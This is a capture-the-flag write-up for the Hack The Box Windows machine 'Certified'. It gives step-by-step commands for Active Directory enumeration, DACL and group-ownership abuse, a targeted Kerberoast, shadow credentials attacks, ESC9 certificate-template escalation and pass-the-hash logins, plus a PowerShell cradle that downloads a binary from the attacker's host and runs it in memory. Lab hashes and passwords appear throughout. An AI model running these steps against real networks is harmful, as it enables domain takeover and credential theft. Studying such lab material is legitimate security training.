



---
tags:
  - Windows
  - bloodhound
  - ADCS
---


... is a medium HTB machine where mis-configured `LDAP` privileges over a assumed-breach account allow for the modification of a group, which can modify an account, leading to his `NT-hash`. That account is then able to modify another account, enabling the abuse of a mis-configured certificate template with `ESC9` attack, elevating the privileges to `Administrator`!

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this (without `-sC`, as it is quite verbose):
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
As this output is quite verbose, i will break it down below:

- Port `139` and `445`: Usually both indicate `SMB`. Port `139` relies on legacy `NetBIOS` (support for older machines), port `445` is a newer version using `TCP/IP`. `SMB` is highly interesting for exploitation, as it allows access to files / printers over the network.
- Port `389` and `636`: Are used for `LDAP` and `LDAPS`. Are used in windows active-directory scenarios to authenticate users / authorize them to take certain actions.
- Port `5985`: Port for `WinRM`. Comparable to `ssh`, usually exclusive to Windows. Interesting if credentials are found.

As the `nmap` scan indicates, the domain name `certified.htb` and `DC01.certified.htb` (from `-sC` scan) are in use. That is why i edit my `/etc/hosts` file as follows for local `DNS` resolution:
```bash
echo "$IP certified.htb DC01.certified.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

As with any windows machine, i first try enumerating the `SMB` service using `netexec`. As this machine is an `assumed breach` machine, i already have valid credentials so i can use them for this scan:
```bash
nxc smb certified.htb -u 'certified.htb\judith.mader' -p 'judith09' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. "judith.mader" here, but append "certified.htb\", as LDAP is in place!
# -p: the password to use. "judith09" here
# --shares: a flag which tells nxc to return a list of available shares.
```

The output of this command shows me the following shares:
```bash
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
NETLOGON        READ            Logon server share 
SYSVOL          READ            Logon server share
```
There doesn't seem to be any out-of-place shares here, but i still decided to investigate the shares i have `READ` access to using the following command (most notably `SYSVOL`, as it may store clear-text credentials):
```bash
smbclient -U 'certified.htb\judith.mader' --password='judith09' "//certified.htb/SYSVOL"
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -U: username to use. here 'certified.htb\judith.mader' is a user on the LDAP (need to specify the domain)
# --password: specify judith's password
```

Sadly, there was nothing of interest there.

I also decided to run the `nxc smb` scan using the `--users` flag instead of the `--shares` flag to enumerate all the available users and see if something is in their description, and this is the output:
```bash
-Username-                    -Last PW Set-       -BadPW-      
Administrator                 2024-05-13 14:53:16 0
Guest                         <never>             0
krbtgt                        2024-05-13 15:02:51 0
judith.mader                  2024-05-14 19:22:11 0
management_svc                2024-05-13 15:30:51 0
ca_operator                   2024-05-13 15:32:03 0 
alexander.huges               2024-05-14 16:39:08 0 
harry.wilson                  2024-05-14 16:39:37 0 
gregory.cameron               2024-05-14 16:40:05 0    
```
Sadly, there were no passwords in the `-Description-` tab.

My next idea was to start a `bloodhound` scan (due to the presence of `LDAP` on the server) to find out if `judith.mader` has any interesting permissions. As i cannot execute code on the target yet, i cannot use the preferred `bloodhound-ingestor` `SharpHound.exe`, which is why i decided to use `netexec`'s built-in `bloodhound-ingestor` as follows:
```bash
nxc ldap certified.htb -u 'certified.htb\judith.mader' -p 'judith09' --bloodhound --collection All --dns-server $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. "judith.mader" here, but append "certified.htb\", as LDAP is in place!
# -p: the password to use. "judith09" here
# --bloodhound: perform multiple `LDAP` scans to save in a file which can be investigated with bloodhound
# --collection All: use all collection methods
# --dns-server: specify the server which resolves DNS
```

I start `bloodhound` with `bloodhound-start`, and upload the resulting `...bloodhound.zip` file which was created from the scan before, to the `File Ingest` tab if the `bloodhound` GUI.

After waiting a while for the `Ingest` to complete, i head over to the `Explore` section and search for `user:judith.mader` in the search tab, and click on the `Outbound Object Control` to find out what permissions `judith` might have over other objects. 

Apparently, `judith` has `WriteOwner` permissions over the `Management`-group! When clicking on the `WriteOwner` line, `bloodhound` reveals that i can do the following attacks after granting myself ownership over this group:

- `Modifying the rights`: I can grant myself the `AddMembers` permission, so i can add members to this `Management` group.
- `Adding to the group`: Adding an arbitrary user to this group
- `Cleanup`: I can remove the `AddMembers` permission again so that no-one suspects a thing.

Before attempting to add a member to the `Management` group, i investigate what that would bring me, by clicking the group, and investigating it's `Outbound Object Controls`. It turns out that this group has the `Generic Write` permissions over the user `MANAGEMENT_SVC`. This opens up the following two attack paths for this service:

- `Targeted Kerberoast`: Allows me to get the `kerberos` hash of the user which i can obtain to crack. As service accounts typically have very strong passwords, it is not usually crackable.
- `Shadow Credentials attack`: Edits the `msDS-KeyCredentialLink` attribute, so that i can use my own cryptographic key to authenticate as that service using `Windows Hello`-like features.

Most interestingly, this `MANAGEMENT_SVC` is part of the `REMOTE MANAGEMENT USERS` group, which is allowed to use `winrm` (`Windows Remote Management`), which is comparable to `ssh`!

### Initial Exploitation
I now have a clear exploitation path in mind:

1.  `judith --[AddUser]-> Management`
2. `Management --[GetKerberosHash]-> MANAGEMENT_SVC`
3. `MANAGEMENT_SVC --[winrm]-> Machine`

I still wanted to try the `Targeted Kerberoast` first, as maybe `management_svc` uses a weak password. If that doesn't work, i can always still attempt the `Shadow Credentials Attack`.

To add a user to the group `Management`, i first need to change the ownership of this group. It can be done with the utility `owneredit.py` from the `impacket` suite:
```bash
impacket-owneredit -action write -new-owner judith.mader -target Management certified.htb/judith.mader:'judith09'
```
This worked very nicely! I now can use `impacket's` `dacledit.py` to edit the `DACL` (`Discretionary Access Control List`, determines which groups/users/computers can access which objects in the AD):
```bash
impacket-dacledit -action write -rights WriteMembers -principal judith.mader -target Management certified.htb/judith.mader:'judith09'
```
And finally, i can add `judith.mader` to the `Management` group using `samba`'s `net` tool:
```bash
net rpc group addmem Management judith.mader -U certified.htb/judith.mader --password='judith09' -S certified.htb
```

Now that `judith.mader` is in the group `Management`, i can use a `Targeted Kerberoast` to fetch the `kerberos ticket` of the user `MANAGEMENT_SVC`, which i can then use to `winrm` into the machine! For this task, i use `targetedKerberoast.py` from this [GitHub repo](https://github.com/ShutdownRepo/targetedKerberoast). 

Before doing any `kerberoast` attack, i need to synchronize the date and time with the date and time of the target (or else, i will get `Kerberos SessionError: CLock skew too great`). It can be done like this:
```bash
sudo timedatectl set-ntp off
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# prevents the OS from automatically correcting the time
```

```bash
sudo rdate -n $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# synchronizes time with the target
```

Now, the following command can be used to get the hash for `management_svc`:
```bash
./targetedKerberoast.py -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'
```

This gives me the `kerberos` hash of `management_svc`. I save it in a `hash.txt` file and attempt to crack it using the following `hashcat` command (mode `13100` for `kerberos` hashes):
```bash
hashcat -m 13100 ./hash.txt ./rockyou.txt
```
This did not work though.

That is why i resort to the `Shadow Credentials Attack`. Usually this attack is performed using the combination of the tools `pywhisker.py` and `gettgtpkinit.py`, but i like to use `certipy` (installed with `pip3 install certipy-ad`) as this tool automates the whole process:
 ```bash
certipy shadow auto -u judith.mader@certified.htb -p 'judith09' -account 'management_svc'
 ```
The resulting `NT Hash` can be passed in the `evil-winrm` login to get a `PowerShell` as `management_svc`, eliminating the need for `Lateral Movement`:
```bash
evil-winrm -i certified.htb -u "certified.htb\management_svc" -H a091c1832bcdd4677c28b5a6a1295584
```

### Privilege Escalation
With windows machines, i always enumerate the current user's privileges using `whoami /all`, but nothing out of the ordinary stands out. I also try to read the `powershell history` file using this command:
```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
But the history file was not there for this user.

As i now have a Windows foothold using `winrm`, i decided to use `SharpHound.exe` to find more information about the system, as the `nxc ingestor` may not find all data. To do so, i download the binary from the releases page of the [SharpHound GitHub](https://github.com/SpecterOps/SharpHound) onto my local machine. And serve it via a `http` server using the command `python3 -m http.server 1337`. To download and save the binary, i issue the following `powershell` command from `management_svc`s terminal:
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<my_IP>:1337/SharpHound.exe')
```
This fetches the `SharpHound.exe` file from my `http` server and stores it in the variable `$data`. I issue the following command to load the `data` into memory:
```powershell
$assem = [System.Reflection.Assembly]::Load($data)
```
And lastly, i can execute `SharpHound` as follows:
```powershell
[Sharphound.Program]::Main(@("-d","certified.htb","-c","All","--OutputDirectory","C:\Users\management_svc","--ZipFileName","test.zip"))
```
This scans the domain `certified.htb` with `All` collection methods! It will output the `zip` at `C:\Users\management_svc` and name it `test.zip`.

To get this created `ZIP` file onto my local machine, i can use the `evil-winrm` command `download ...zip ./` to download the ZIP file to my local directory where i started the `evil-winrm` command!

I clear the previous `bloodhound` data in `Administration > Database Management`, and upload the new data. The new bloodhound data paints a clearer picture of the situation. I can see that the `management_svc` service has `GenericAll` permissions over the `CA_OPERATOR` account, which allows me to do the following attacks on that account:

- `Targeted Kerberoast`: Allows me to get the `kerberos` hash of the user which i can obtain to crack. As service accounts typically have very strong passwords, it is not usually crackable.
- `Force Change Password`: Change the password of the service account. Not very stealthy, but gives me password-based access.
- `Shadow Credentials attack`: Edits the `msDS-KeyCredentialLink` attribute, so that i can use my own cryptographic key to authenticate as that service using `Windows Hello`-like features.

Investigating the `Outbound Object Control` of `CA_OPERATOR` reveals that they can enroll in the certificate template `CERTIFIEDAUTHENTICATION`. This does not automatically mean that it is exploitable, as i do not have any relevant permissions over it (no write-permission leading to `ESC4`), but i can in fact, view the certificate template to see if it is mis-configured by itself.

A `Shadow Credentials attack` can be done to very stealthily get access to the `CA_OPERATOR` account, but i decided to do the `Force Change Password` attack, as i already used the `Shadow Credentials attack` before. To do so, i can simply execute the change password command, as i already have `GenericAll` permissions and do not need to change them:
```bash
net rpc password ca_operator password123 -U certified.htb/management_svc --password='a091c1832bcdd4677c28b5a6a1295584' --pw-nt-hash -S sequel.htb
```
```bash
# or by using the .ccache file
```
```bash
net rpc password ca_operator password123 -U certified.htb/management_svc --use-krb5-ccache=./management_svc.ccache -N -S sequel.htb
```
Sadly, this did not work, as `management_svc`, does not have write permissions to the `IPC$` share, or `Pass-The-Hash` is blocked for `SMB`.

That is why i simply do an `Shadow Credentials attack` on the `ca_operator` account. Executing this command gives me the `NT Hash` file of `ca_operator`, just like before:
 ```bash
certipy shadow auto -u management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -account 'ca_operator'
 ```
 This gives me his `NT_HASH` `b4b86f45c6018f1b664f70805f45d8f2`!

Using this account, i can now enumerate the certificate template `CERTIFIEDAUTHENTICATION` for vulnerabilities using this command:
```bash
certipy find -u ca_operator@certified.htb -hashes 'b4b86f45c6018f1b664f70805f45d8f2' -dc-ip $IP -vulnerable
```

Reading the resulting scan with `cat ...Certipy.json | jq`, informs me that the certificate template is vulnerable to `ESC9`. The vulnerability in `ESC9` occurs when a mis-configured certificate template uses the `CT_FLAG_NO_SECURITY_EXTENSION` flag, which results in issued certificates not using the requester's `objectSid`. Using this weak certificate mapping, it is possible to obtain a certificate with an identity matching another account (e.g. `Administrator`) ([credits](https://medium.com/r3d-buck3t/adcs-attack-series-abusing-esc9-for-privilege-escalation-via-weak-certificate-mapping-d625aceb5942)).

To perform this attack, i need one account (here, `management_svc`) which has any write permissions over another account (here, `ca_operator`). I can then edit his `UPN` (`User Principal Name`) to be `Administrator` instead of `ca_operator` like this:
```bash
certipy account update -u management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn Administrator
```

Now, after having changed the `UPN` of `ca_operator`, i can request a certificate as `administrator`, as i match his `UPN` (the `CA` name was found in `bloodhound`):
```bash
certipy req -u ca_operator@certified.htb -hashes 'b4b86f45c6018f1b664f70805f45d8f2' -ca CERTIFIED-DC01-CA -template CERTIFIEDAUTHENTICATION -dc-ip $IP
```
This gives me the `administrator.pfx`!

To avoid authentication issues when trying to connect as `administrator`, i revert `ca_operator`'s `UPN` to its previous value:
```bash
certipy account update -u management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn ca_operator@certified.htb
```

And as the last step, i can get `Administrators` `NT-Hash` using the following command:
```bash
certipy auth -pfx ./administrator.pfx -domain certified.htb -dc-ip $IP
```
I can use the right part of the `NTLM` hash to authenticate via `winrm`:
```bash
evil-winrm -i certified.htb -u "certified.htb\administrator" -H 0d5b49608bbce1751f708748f67e2d34
```

### Summary

Below is a visualized summary of the exploitation steps used in this machine to gain RCE.



The privilege escalation to the user `Administrator` worked as follows:

